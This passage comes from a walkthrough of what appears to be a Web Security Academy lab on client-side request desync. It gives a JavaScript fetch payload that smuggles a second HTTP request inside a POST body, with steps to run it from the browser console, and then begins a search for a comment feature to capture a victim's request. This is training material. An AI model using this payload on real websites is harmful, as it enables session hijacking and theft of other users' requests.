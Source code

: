 Create the same behavior we had with Burp in a JS file:

```javascript
fetch("https://0ad0007504e058c7c925f8c3009e0035.h1-web-security-academy.net/", {

method: "POST",

body: "GET /halil HTTP/1.1\r\nX-Ignore: X",

credentials: "include", //with-cookies connection pool

mode: "cors", //make sure the 302 on / is not followed

}

).catch(()=>{

fetch("https://0ad0007504e058c7c925f8c3009e0035.h1-web-security-academy.net/en", {

mode: "no-cors",

credentials: "include"

});

});
```

Open a chrome browser, which has the page loaded and go to the `Network` options. Click the `Preserve logs`.

Then go to the `Console` and paste the js code above, and run it.

We got a `404 Not Found` as shown below:

![](../../../../images/Pasted_image_20250120094941.png)

And for more details, on the `Network` tab, wee see both requests, one with `302` and one with `404` as in the Burp.

![](../../../../images/Pasted_image_20250120095031.png)

### Find a vulnerable gadget to store our victim's request

In the website, we see some posts where we can add comments. Just add one.

In Burp we see the request to add the comment which is: `POST /en/post/comment HTTP/1.1`.

The body of this request is:

